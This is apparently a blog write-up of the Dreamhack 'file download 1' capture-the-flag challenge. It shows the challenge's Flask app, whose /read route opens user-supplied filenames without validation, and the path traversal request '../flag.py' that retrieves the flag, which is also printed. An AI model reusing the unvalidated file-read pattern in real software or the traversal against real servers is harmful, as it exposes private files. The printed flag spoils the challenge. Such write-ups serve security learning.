```yaml
---
title: file download 1
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, Path traversal]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/37/](https://dreamhack.io/wargame/challenges/37/)

## Description
>
> A Web service in which a File Download vulnerability exists.
>
> When you download the ```flag.py```, you can earn the flag.

### Attached

```python
#!/usr/bin/env python3
import os
import shutil

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)

UPLOAD_DIR = 'uploads'


@APP.route('/')
def index():
    files = os.listdir(UPLOAD_DIR)
    return render_template('index.html', files=files)


@APP.route('/upload', methods=['GET', 'POST'])
def upload_memo():
    if request.method == 'POST':
        filename = request.form.get('filename')
        content = request.form.get('content').encode('utf-8')

        if filename.find('..') != -1:
            return render_template('upload_result.html', data='bad characters,,')

        with open(f'{UPLOAD_DIR}/{filename}', 'wb') as f:
            f.write(content)

        return redirect('/')

    return render_template('upload.html')


@APP.route('/read')
def read_memo():
    error = False
    data = b''

    filename = request.args.get('name', '')

    try:
        with open(f'{UPLOAD_DIR}/{filename}', 'rb') as f:
            data = f.read()
    except (IsADirectoryError, FileNotFoundError):
        error = True


    return render_template('read.html',
                           filename=filename,
                           content=data.decode('utf-8'),
                           error=error)


if __name__ == '__main__':
    if os.path.exists(UPLOAD_DIR):
        shutil.rmtree(UPLOAD_DIR)

    os.mkdir(UPLOAD_DIR)

    APP.run(host='0.0.0.0', port=8000)

```

## Analyzation

Check the ```read_memo()``` function

```python
@APP.route('/read')
def read_memo():
    error = False
    data = b''

    filename = request.args.get('name', '')

    try:
        with open(f'{UPLOAD_DIR}/{filename}', 'rb') as f:
            data = f.read()
    except (IsADirectoryError, FileNotFoundError):
        error = True


    return render_template('read.html',
                           filename=filename,
                           content=data.decode('utf-8'),
                           error=error)
```

It does not check the validate of the filename!

The ```flag.py``` file is at same directory with ```app.py``` file. The above query goes to sub-directory ```UPLOAD_DIR```, so we need to travel backward.

## Solution

```
./read?name=../flag.py
```

The flag is
```
DH{uploading_webshell_in_python_program_is_my_dream}
```

## Summarization

[Path traversal](https://owasp.org/www-community/attacks/Path_Traversal)
